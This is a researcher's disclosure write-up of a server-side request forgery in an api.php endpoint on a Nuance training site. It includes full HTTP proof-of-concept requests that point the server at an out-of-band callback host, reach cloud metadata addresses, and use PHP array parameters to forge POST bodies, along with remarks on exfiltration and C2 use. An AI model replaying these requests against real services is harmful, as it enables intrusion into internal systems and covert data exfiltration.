

I submitted another HTTP SSRF in MS services via MSRC recently, this time within an insecure `api.php` endpoint I found on `train.digital.nuance.com`. 

This was a full HTTP SSRF, capable of interacting with internal services, and could be used for both GET and POST requests, including sending full GET/POST bodies with arbitrary parameter/value pairs to arbitrary resources.

## Bounty?
None. A few weeks after submission, MS responded that they confirmed the bug, were investigating the issue, and asked for any more information I could provide. At this time I dug in a little bit more, finding the ability to submit full POST requests with bodies and arbitrary params. They didn't reply, and closed the case.

No "thank you", no "We've fixed it"... nothing, lol



Anyway, here are the details.

## api.php

While performing some recon against MS infra, I came across an interesting site, `train.digital.nuance.com`, that appeared to be an online chat testing application. This app let users to connect to virtual "Agents" and interact with them and judging by the aptly named domain, it seemed likely this platform was intended to be used to train AI agents for Nuance, a Microsoft owned conversational AI.

Most of the traffic sent to the app were POSTs to an `api.php` endpoint, and contained several suspicious body params:
- `body`
- `domain`
- `endpoint`
- `params`, and
- `type`

Flipping the `domain` parameter to a burp collab server, the app sent the request and it turned out to be a full HTTP SSRF, response and everything. After playing with params the following PoC was reasonable enough to demonstrate some behavior.


Collab Receives:


A few things about the request / responses above:
1. I changed the `endpoint`, `params`, and `type` values to see if those were sent too (they are) or modified the request method (they do)
2. The `token` parameter, a JWT, was automagically added by the app, no auth was actually needed
3. A POST is received by the collab (cool), but data in the `body` param wasn't sent... note that it was `{}` by default
4. The request was CSRF-able

I found it was also possible to interact with internal resources, such as VM metadata URLs, `http://169.254.169.254/xxx`. This could be inferred from application responses which included the error codes of the SSRF request itself should the SSRF fail, a useful mechanism for my purposes. Unfortunately, it wasn't possible to return data from the metadata URLs, as there wasn't a way to inject the required headers into the SSRF request (`metadata: true`). This, at least, provided some nice proof that interaction with local / internal resources was possible.

## Elevating the issue

One limitation of this bug remained the inability to forward POST bodies, even though the request method could be changed to a POST and an apparent `body` parameter was present. After trying a few more things, I recalled the server's response headers contained `X-Powered-By: PHP/7.3.33`. This clicked, and I sent a request with the `body` param of `body[]=test`-- an attempt to leverage PHP functionality known as "type-juggling":

```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body[]=test&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

and now, the collaborator received:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 6

0=test
```

Surprise! Data could be sent after all. This is great, but a POST body parameter named `0` is unlikely to be particularly useful.

I've used type juggling before, but I didn't know it's possible to create an array element with an arbitrary name using it. Meaning, it becomes possible to send something like `body[param]=value` and forge a request that sends a POST body of `param=value`:

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 879

body[param]=value&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

Collab receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 11

param=value
```

## Cool, right? 

This bug went from a simple HTTP SSRF to something much more, very quickly. To summarize, it let an attacker:

- Send and receive full HTTP requests to arbitrary destinations, including internal services
- Send both GET and POST methods, including arbitrarily provided URL and POST body parameters
- Exfiltrate data through the `body` and `token` parameters, resulting in requests routed through Microsoft infrastructure
    - This is also potentially very useful for C2, as traffic appears to be sent to legitimate Microsoft services

Even though Microsoft didn't provide any bounty for this issue, it was fun to see a full SSRF, something of a rareity these days. Also, a legitimate use for type juggling was fun to find, not sure I've ever used it in this fashion.

